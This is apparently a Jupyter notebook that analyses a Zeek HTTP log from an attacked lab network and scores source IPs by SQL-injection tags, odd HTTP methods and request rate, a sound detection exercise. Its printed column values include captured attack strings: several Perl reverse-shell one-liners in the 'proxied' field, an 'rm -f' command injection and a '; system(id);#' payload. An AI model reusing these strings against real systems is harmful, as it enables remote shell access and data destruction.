In [92]:
import pandas as pd
import matplotlib.pyplot as plt
%matplotlib inline

In [47]:
column_names = ["ts",
"uid",
"id.orig_h",
"id.orig_p",
"id.resp_h",
"id.resp_p",
"trans_depth",
"method",
"host",
"uri",
"referrer",
"user_agent",
"request_body_len",
"response_body_len",
"status_code",
"status_msg",
"info_code",
"info_msg",
"filename",
"tags",
"username",
"password",
"proxied",
"orig_fuids",
"orig_mime_types",
"resp_fuids",
"resp_mime_types"]

In [48]:
data = pd.read_csv("http.log", sep = "\t", names = column_names,error_bad_lines = False)

D:\Programs\lib\site-packages\IPython\core\interactiveshell.py:2785: DtypeWarning: Columns (12,13,14) have mixed types. Specify dtype option on import or set low_memory=False.
  interactivity=interactivity, compiler=compiler, result=result)


In [49]:
data.head()

,ts,uid,id.orig_h,id.orig_p,id.resp_h,id.resp_p,trans_depth,method,host,uri,...,info_msg,filename,tags,username,password,proxied,orig_fuids,orig_mime_types,resp_fuids,resp_mime_types
0,1.331901e+09,CHEt7z3AzG4gyCNgci,192.168.202.79,50465,192.168.229.251,80,1,HEAD,192.168.229.251,/DEASLog02.nsf,...,-,-,(empty),-,-,-,-,-,-,-
1,1.331901e+09,CKnDAp2ohlvN6rpiXl,192.168.202.79,50467,192.168.229.251,80,1,HEAD,192.168.229.251,/DEASLog03.nsf,...,-,-,(empty),-,-,-,-,-,-,-
2,1.331901e+09,CNTrjn42F3LB58MZH6,192.168.202.79,50469,192.168.229.251,80,1,HEAD,192.168.229.251,/DEASLog04.nsf,...,-,-,(empty),-,-,-,-,-,-,-
3,1.331901e+09,C1D7mK1PlzKEnEyG03,192.168.202.79,50471,192.168.229.251,80,1,HEAD,192.168.229.251,/DEASLog05.nsf,...,-,-,(empty),-,-,-,-,-,-,-
4,1.331901e+09,CGF1bVMyl9ALKI32l,192.168.202.79,50473,192.168.229.251,80,1,HEAD,192.168.229.251,/DEASLog.nsf,...,-,-,(empty),-,-,-,-,-,-,-


In [85]:
result = pd.DataFrame(columns = ["IP address", "bad tag", "bad method", "average actions per second"])

In [78]:
result.head()

,IP address,bad tag,bad method,average actions per second


In [50]:
data['id.orig_h'].unique()

array(['192.168.202.79', '192.168.202.76', '192.168.203.61',
       '192.168.203.62', '192.168.204.70', '192.168.202.73',
       '192.168.202.90', '192.168.202.102', '192.168.202.96',
       '192.168.202.110', '192.168.202.87', '192.168.202.83',
       '192.168.203.45', '192.168.28.100', '192.168.202.112',
       '192.168.24.100', '192.168.26.100', '192.168.27.100',
       '192.168.204.45', '192.168.202.103', '192.168.203.64',
       '192.168.202.94', '192.168.202.115', '192.168.202.95',
       '192.168.202.101', '192.168.202.100', '192.168.202.107',
       '192.168.202.80', '192.168.202.108', '192.168.202.118',
       '192.168.203.63', '192.168.202.122', '192.168.202.65',
       '192.168.25.100', '192.168.202.97',
       '2001:dbb:c18:204:20c:29ff:fe4e:9e86', '192.168.26.254',
       '192.168.202.125', '2001:dbb:c18:202:20c:29ff:fe93:571e',
       '192.168.202.109', '192.168.202.4', '192.168.23.254',
       '192.168.202.88', '192.168.202.98', '192.168.23.100',
       '192.168.22.100',

In [69]:
# methods from https://tools.ietf.org/html/rfc2616#section-9
http_methods = [
"GET",
"HEAD",
"POST",
"PUT",
"DELETE",
"CONNECT",
"OPTIONS",
"TRACE",
"PATCH"
]
bad_tag = 'HTTP::URI_SQLI'

In [86]:
result = pd.DataFrame(columns = ["IP address", "bad tag", "bad method", "average actions per second"])
current_bad_tag = 0
current_bad_method = 0
for incoming_ip in data['id.orig_h'].unique():
    temp = data.loc[data['id.orig_h'] == incoming_ip]
    num_rows = temp.shape[0]
    time_range = temp['ts'].max() - temp['ts'].min()
    if num_rows == 1:
        avg_action = 0
    else:
        avg_action = num_rows/time_range

    if bad_tag in temp['tags'].unique():
        current_bad_tag = 1
        print("bad tag")
    
    for method in temp['method'].unique():
        if not(method in http_methods):
            current_bad_method = 1
            print("bad method")
            break
    result = result.append({"IP address": incoming_ip, "bad tag": current_bad_tag, "bad method": current_bad_method,
                            "average actions per second": avg_action}, ignore_index = True)
    
    
    current_bad_tag = 0
    current_bad_method = 0
    
    print("No of actions: {} , time range: {:.2f}, avg action per second: {:.2f}, 404 errors: {} ".format(
        temp.shape[0], time_range, avg_action, temp.loc[temp['status_code'] == 404].shape[0]))

bad tag
bad method
No of actions: 232259 , time range: 114455.91, avg action per second: 2.03, 404 errors: 97631 
No of actions: 4493 , time range: 110913.18, avg action per second: 0.04, 404 errors: 0 
bad method
No of actions: 161 , time range: 18141.58, avg action per second: 0.01, 404 errors: 0 
No of actions: 223 , time range: 1611.22, avg action per second: 0.14, 404 errors: 0 
No of actions: 1201 , time range: 29618.28, avg action per second: 0.04, 404 errors: 5 
No of actions: 3 , time range: 0.10, avg action per second: 30.00, 404 errors: 0 
bad method
No of actions: 1750 , time range: 108839.61, avg action per second: 0.02, 404 errors: 0 
bad tag
bad method
No of actions: 212230 , time range: 112802.00, avg action per second: 1.88, 404 errors: 53 
bad tag
bad method
No of actions: 10487 , time range: 19614.98, avg action per second: 0.53, 404 errors: 0 
bad tag
bad method
No of actions: 168474 , time range: 31929.75, avg action per second: 5.28, 404 errors: 3541 
No of action

In [87]:
result

,IP address,bad tag,bad method,average actions per second
0,192.168.202.79,1,1,2.029244
1,192.168.202.76,0,0,0.040509
2,192.168.203.61,0,1,0.008875
3,192.168.203.62,0,0,0.138404
4,192.168.204.70,0,0,0.040549
5,192.168.202.73,0,0,30.000029
6,192.168.202.90,0,1,0.016079
7,192.168.202.102,1,1,1.881438
8,192.168.202.96,1,1,0.534642
9,192.168.202.110,1,1,5.276396


In [88]:
result.describe()

,average actions per second
count,71.000000
mean,2.052015
std,9.310269
min,0.000000
25%,0.002777
50%,0.013443
75%,0.128488
max,72.350896


In [101]:
threshold = result['average actions per second'].mean() + 2 * result['average actions per second'].std() 
print(threshold)

20.672553033135976


In [105]:
def calculate_score(row):
    if row['average actions per second'] >= threshold:
        return row['bad tag'] + row['bad method'] + 1
    else:
        return row['bad tag'] + row['bad method']

In [106]:
result['score'] = result.apply(calculate_score, axis = 1)

In [111]:
result.sort_values(by = "score", ascending = False)

,IP address,bad tag,bad method,average actions per second,score
0,192.168.202.79,1,1,2.029244,2
8,192.168.202.96,1,1,0.534642,2
29,192.168.202.118,1,1,1.486523,2
52,192.168.202.138,1,1,2.140589,2
37,192.168.202.125,1,1,1.636586,2
14,192.168.202.112,1,1,0.048756,2
9,192.168.202.110,1,1,5.276396,2
55,192.168.202.140,1,1,1.529427,2
7,192.168.202.102,1,1,1.881438,2
6,192.168.202.90,0,1,0.016079,1


(array([61.,  5.,  1.,  1.,  0.,  1.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,
         0.,  0.,  0.,  1.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,
         0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,  0.,
         1.]),
 array([ 0.        ,  1.80877241,  3.61754481,  5.42631722,  7.23508962,
         9.04386203, 10.85263443, 12.66140684, 14.47017924, 16.27895165,
        18.08772405, 19.89649646, 21.70526886, 23.51404127, 25.32281367,
        27.13158608, 28.94035848, 30.74913089, 32.55790329, 34.3666757 ,
        36.17544811, 37.98422051, 39.79299292, 41.60176532, 43.41053773,
        45.21931013, 47.02808254, 48.83685494, 50.64562735, 52.45439975,
        54.26317216, 56.07194456, 57.88071697, 59.68948937, 61.49826178,
        63.30703418, 65.11580659, 66.924579  , 68.7333514 , 70.54212381,
        72.35089621]),
 <a list of 40 Patch objects>)



In [99]:
plt.hist(result['average actions per second'], bins = 40)

In [90]:
result.to_csv("result.csv", index = False)

In [45]:
data["status_code"].unique()

array(['404', '401', '200', '403', '500', '400', '-', '503', '405', '501',
       '206', '302', '304', '301', '303', '414', '505', '0', '417', '272',
       '502', '411', 200, 404, 403, 302, 304, 301, 400, 414, '413', 401,
       303, 405, 501, '406', '201', '207', '204'], dtype=object)

In [52]:
# methods from https://tools.ietf.org/html/rfc2616#section-9
http_methods = [
"GET",
"HEAD",
"POST",
"PUT",
"DELETE",
"CONNECT",
"OPTIONS",
"TRACE",
"PATCH"
]

data["method"].unique()

array(['HEAD', 'GET', 'POST', 'OPTIONS', 'TRACE', 'PROPFIND',
       'RPC_CONNECT', '-', 'DELETE', 'PUT', 'SEARCH', 'DESCRIBE',
       'CONNECT', 'GNUTELLA', 'Secure', 'OEDNGQ', 'YVFUKU', 'some',
       'BXNTPG', 'XORXZY', 'user', 'NVKHMY', 'PCKOIZ', 'TRACK', 'NESSUS',
       'EAILCX', 'KTGFFX', 'FHGDMH', 'WOIGAG', 'EQAONR', 'GATMQW',
       'JZUIPY', 'UIZUPR', 'FPANCV', 'JULUOO', 'CEXLCB', 'RWXDSY',
       'RRRHRH', 'CFFWFE', '192.168.24.100', 'DEBUG', 'LIAYPN', 'get',
       'INDEX', 'SHZGJU', 'OMSHFQ', 'STBAGO', 'ZUHEZF', 'QEQPAY',
       'RXKLNG', 'UGLOBT', 'XQVMVV', 'IJQKXT', 'FSMTJV', 'FTRXOE',
       'DKAYVI', 'SUMTHR', 'UTFFHY', 'YGPFYB', 'OOEWLB', 'KZBPDI',
       'YUFQDS', 'FYEMFA', 'WPBVGL', 'SHFUAV', 'PRCZJG', 'PAVQPZ',
       'meterpreter', 'RXIZKG', 'BQXNEI', 'BERSCF', 'ZGZYRW', 'WFXUQY',
       'ALKYKO', 'KBSHMY', 'SQWQKT', 'EASNMD', 'OTVOUM', 'FUXMRF',
       'OKJZNB', 'GRKOAY', 'VXDZJC', 'VBOOEA', 'XXHIWD', 'MGDROM',
       'DBDBVB', 'JWLBTC', 'QQJFKG', 'PZOEIU', 'DQCV

In [59]:
data['request_body_len'].unique()

array(['0', '232', '337', '63', '19', '833', '845', '839', '279', '38',
       '43', '41', '24', '26384', '1818', '374', '376', '16680', '357',
       '16384', '39', '1801', '16098', '1997', '40', '830', '622', '334',
       '135', '609', '32', '29', '31', '423', '422', '1897', '15964',
       '3432', '1905', '356', '57', '1527', '3467', '3450', '379', '3505',
       '12', '10', '11', '3457', '1922', '3494', '1799', '84', '1839',
       '36', '65', '42', '1833', '1856', '99', '92', '11477', '3789',
       '3859', '3801', '256', '182', '190', '126', '107', '88', '451',
       '253', '25', '160', '101', '109', '44', '80', '177', '186', '111',
       '60', '49', '178', '162', '188', '170', '166', '116', '176', '136',
       '184', '342', '266', '174', '154', '168', '125', '100', '51',
       '217', '55', '120', '4869', '21', '94', '858', '-', '26', '172',
       '127', '183', '77', '191', '138223', '870', '309', '36192', '543',
       '75', '14', '207', '58', '64',
       'Mozilla/4.0 (co

In [60]:
data['response_body_len'].unique()

array(['0', '1433', '32', ..., '56817', '56566', '56820'], dtype=object)

In [65]:
data['referrer'].unique()

array(['-', 'http://192.168.202.78/doku.php',
       'http://192.168.202.78/lib/exe/css.php?t=default&tseed=1331841054',
       ...,
       'http://192.168.28.152/webadmin.nsf/dlgConfigPorts?ReadForm&objref=16',
       'http://192.168.28.103:80/common/security/realms/manageUserNew.jsf?name=admin-realm&configName=server-config&bare=true',
       'http://192.168.25.103/webdav/c9999.php'], dtype=object)

In [66]:
data['user_agent'].unique()

array(['Mozilla/5.0 (compatible; Nmap Scripting Engine; http://nmap.org/book/nse.html)',
       'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:10.0.2) Gecko/20100101 Firefox/10.0.2',
       'Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; WOW64; Trident/4.0; EasyBits GO v1.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; InfoPath.3; BRI/2)',
       ...,
       "; system(id);#\t0\t287\t404\tNot Found\t-\t-\t-\t(empty)\t-\t-\t-\t-\t-\tF5Yk3T1DIcZkPnDha\ttext/html\n1332010304.420000\tCPIeNr35pIFz6h2JPj\t192.168.202.138\t50916\t192.168.27.102\t3128\t1\tGET\t192.168.27.102\t/\t-\tMozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)\t0\t3147\t400\tBad Request\t-\t-\t-\t(empty)\t-\t-\t-\t-\t-\tFMUURc20NCLZ0WVmz2\ttext/html\n1332010304.440000\tCv5EiH3s33IMej0XXb\t192.168.202.138\t33900\t192.168.27.102\t80\t1\tGET\t192.168.27.102\t/\t-\tMozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)\t0\t177\t200\tOK\t-\t-\t-\t(empty)\t-

In [64]:
# HTTP::URI_SQLI -> sql injection
data['tags'].unique()

array(['(empty)', 'HTTP::URI_SQLI', '-'], dtype=object)

In [75]:
data['proxied'].unique()

array(['-',
       'CLIENT-IP -> perl -MIO -e \'$p=fork;exit\\x2cif($p);$c=new IO::Socket::INET(PeerAddr\\x2c"192.168.202.96:25686");STDIN->fdopen($c\\x2cr);$~->fdopen($c\\x2cw);system$_ while<>;\';',
       'CLIENT-IP -> rm -f tiki-config.php',
       'VIA -> SIP/2.0/TCP nm;branch=foo', 'PROXY-CONNECTION -> Close',
       'CLIENT-IP -> perl -MIO -e \'$p=fork;exit\\x2cif($p);$c=new IO::Socket::INET(PeerAddr\\x2c"192.168.202.96:14768");STDIN->fdopen($c\\x2cr);$~->fdopen($c\\x2cw);system$_ while<>;\';',
       'CLIENT-IP -> perl -MIO -e \'$p=fork;exit\\x2cif($p);$c=new IO::Socket::INET(PeerAddr\\x2c"192.168.202.96:19127");STDIN->fdopen($c\\x2cr);$~->fdopen($c\\x2cw);system$_ while<>;\';',
       'CLIENT-IP -> perl -MIO -e \'$p=fork;exit\\x2cif($p);$c=new IO::Socket::INET(PeerAddr\\x2c"192.168.202.96:6569");STDIN->fdopen($c\\x2cr);$~->fdopen($c\\x2cw);system$_ while<>;\';',
       'PROXY-CONNECTION -> keep-alive',
       'CLIENT-IP -> perl -MIO -e \'$p=fork;exit\\x2cif($p);$c=new IO::Sock